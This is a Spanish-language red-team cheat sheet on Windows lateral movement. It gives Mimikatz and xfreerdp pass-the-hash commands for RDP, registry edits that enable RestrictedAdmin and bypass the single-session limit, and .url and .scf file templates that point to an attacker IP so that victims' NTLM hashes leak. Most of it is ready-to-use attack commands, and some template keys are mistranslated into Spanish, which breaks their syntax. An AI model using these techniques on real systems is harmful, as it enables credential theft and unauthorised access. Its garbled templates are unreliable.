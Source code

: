 Si el host al que queremos realizar el traslado lateral tiene habilitado "RestrictedAdmin", podemos pasar el hash mediante el protocolo RDP y obtener una sesión interactiva sin la contraseña de texto plano.

- Mimikatz:

```powershell
#Ejecutamos la función de pasar el hash con mimikatz y generamos una instancia de mstsc.exe con el indicador "/restrictedadmin"
privilege::debug
sekurlsa::pth /user:<Nombre de usuario> /domain:<Nombre de dominio> /ntlm:<NTLMHash> /run:"mstsc.exe /restrictedadmin"

#Luego, simplemente haga clic en "Aceptar" en el diálogo de RDP y disfrute de una sesión interactiva con el usuario que suplantamos.
```

- xFreeRDP:

```powershell
xfreerdp +compression +clipboard /dynamic-resolution +toggle-fullscreen /cert-ignore /bpp:8 /u:<Nombre de usuario> /pth:<NTLMHash> /v:<Nombre de host | Dirección IP>
```

:exclamation: Si el modo de administrador restringido está deshabilitado en la máquina remota, podemos conectarnos al host usando otra herramienta/protocolo

Como psexec o winrm, habilítelo creando la siguiente clave de registro y estableciéndola en cero: "HKLM:\System\CurrentControlSet\Control\Lsa\DisableRestrictedAdmin".

- Omitir la restricción de "Sesión única por usuario"

En un equipo de dominio, si ejecuta comandos como administrador del sistema o local y desea una sesión RDP que otro usuario ya esté usando, puede evitar la restricción de sesión única agregando la siguiente clave de registro:
```powershell
REG ADD "HKLM\SOFTWARE\Policies\Microsoft\Windows NT\Terminal Services" /v fSingleSessionPerUser /t REG_DWORD /d 0
```

Una vez completado el proceso, puede eliminar la clave para restablecer la restricción de una sola sesión por usuario. ```powershell
REG DELETE "HKLM\SOFTWARE\Policies\Microsoft\Windows NT\Terminal Services" /v fSingleSessionPerUse
```

### Ataques con archivos URL

- Archivo .url

```
[Acceso directo a Internet]
URL=lo que sea
WorkingDirectory=lo que sea
IconFile=\\<IpDelAtacante>\%USERNAME%.icon
IconIndex=1
```

```
[Acceso directo a Internet]
URL=file://<IpDelAtacante>/leak/leak.html
```

- Archivo .scf

```
[Shell]
Comando=2
IconFile=\\<IpDelAtacante>\Share\test.ico
[Barra de tareas]
Comando=ToggleDesktop